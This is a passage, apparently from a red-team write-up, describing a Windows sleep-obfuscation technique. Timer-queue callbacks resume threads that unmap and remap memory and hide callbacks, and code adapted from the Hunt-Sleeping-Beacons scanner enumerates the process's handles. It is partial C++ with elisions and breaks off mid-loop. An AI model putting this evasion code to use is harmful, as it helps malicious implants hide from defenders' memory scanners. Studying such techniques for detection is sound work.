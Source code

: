 ```cpp
[...]
```

In total 5 Timers are created within the same TimerQueue: 

```cpp
 [...]
 
 CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)ResumeThreadAddress, ThreadArray[0], 1000, 0, WT_EXECUTEINTIMERTHREAD);//unamp
 CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)ResumeThreadAddress, ThreadArray[1], 1100, 0, WT_EXECUTEINTIMERTHREAD);//mapsac
 CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)ResumeThreadAddress, ThreadArray[4], 2000, 0, WT_EXECUTEINTIMERTHREAD);//hide callbacks
 CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)ResumeThreadAddress, ThreadArray[2], 20000, 0, WT_EXECUTEINTIMERTHREAD);//unmap
 CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)ResumeThreadAddress, ThreadArray[3], 20100, 0, WT_EXECUTEINTIMERTHREAD);//mapma
 
 [...]
```

Once the Timers are created the ResumeThread callback chase starts (parts of variables declaration is omitted to leave more space and importance to the logic of things): 

```cpp
//original unmodified version can be found here
//https://github.com/thefLink/Hunt-Sleeping-Beacons/blob/main/src/EnumerateSuspiciousTimers.cpp
int EnumResumeThreadCallbacks(PVOID ResumeThreadAddress, PTPP_CLEANUP_GROUP_MEMBER* callbackArray) {

[...]
    
    while ((status = NtQuerySystemInformation(
        SystemHandleInformation,
        buffer,
        bufferSize,
        NULL
    )) == STATUS_INFO_LENGTH_MISMATCH) {
        VirtualFree(buffer, 0, MEM_RELEASE);
        buffer = (PSYSTEM_HANDLE_INFORMATION)VirtualAlloc(NULL, bufferSize *= 2, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    }

    if (!NT_SUCCESS(status)) {
        return -1;
    }

    PSYSTEM_HANDLE_INFORMATION handleInfo = (PSYSTEM_HANDLE_INFORMATION)buffer;
    POBJECT_TYPE_INFORMATION objectTypeInfo;
    ULONG returnLength;
    objectTypeInfo = (POBJECT_TYPE_INFORMATION)VirtualAlloc(NULL, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    for (ULONG_PTR i = 0; i < handleInfo->HandleCount; i++) {

        SYSTEM_HANDLE handle = handleInfo->Handles[i];

        //for each handle i check whether it belongs to my process
        if (handle.ProcessId == GetProcessId(GetCurrentProcess())) {

            if (NtQueryObject((void*)handle.Handle, ObjectTypeInformation, objectTypeInfo, sizeof(OBJECT_TYPE_INFORMATION) * 2, NULL) < 0) {

                continue;
```